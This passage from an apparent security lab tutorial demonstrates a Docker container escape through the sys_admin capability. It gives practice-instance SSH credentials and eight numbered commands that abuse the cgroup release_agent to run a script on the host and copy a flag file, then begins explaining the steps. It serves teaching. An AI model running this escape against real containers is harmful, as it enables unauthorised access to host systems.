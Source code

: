 ------



Before we begin to exploit this for ourselves, **you will need to deploy the new Instance attached to this Task.** The vulnerabilities of the previous VM conflict with this exploit.

#### Connecting to the container:

Connect to your **new Instance** using SSH with the following details:

New Instance IP: MACHINE_IP

SSH Port: 2244

Username: root

Password: danny

Allowing a few minutes for the new Instance to deploy, I'm going to demonstrate  leveraging the "sys_admin" capability. We can confirm we have this  capability by *grepping* the output of `capsh `:

![img](assets/getcap1.png)

This capability permits us to do multiple of things (which is listed [here](https://linux.die.net/man/7/capabilities)), but we're going to focus on the ability given to use us via "sys_admin" to be able to [mount](https://linux.die.net/man/2/mount) files from the host OS into the container.

The code snippet below is based upon (but a modified) version of the [Proof of Concept (PoC) created by Trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The SYS_ADMIN capability allows a,security risks of doing so.) where they detail the inner-workings to this exploit well.

**1.** mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

**2.** echo 1 > /tmp/cgrp/x/notify_on_release

**3.** host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

**4.** echo "$host_path/exploit" > /tmp/cgrp/release_agent

**5.** echo '#!/bin/sh' > /exploit

**6.** echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit

**7.** chmod a+x /exploit

**8.** sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

####  Let's briefly summarise what happens here:

**9.4.1.** We need to create a group to use the Linux kernel to write and execute our exploit. The kernel uses "cgroups" to  manage processes on the operating system since we have capabilities to  manage "cgroups" as root on the host, we'll mount this to "*/tmp/cgrp*" on the container.
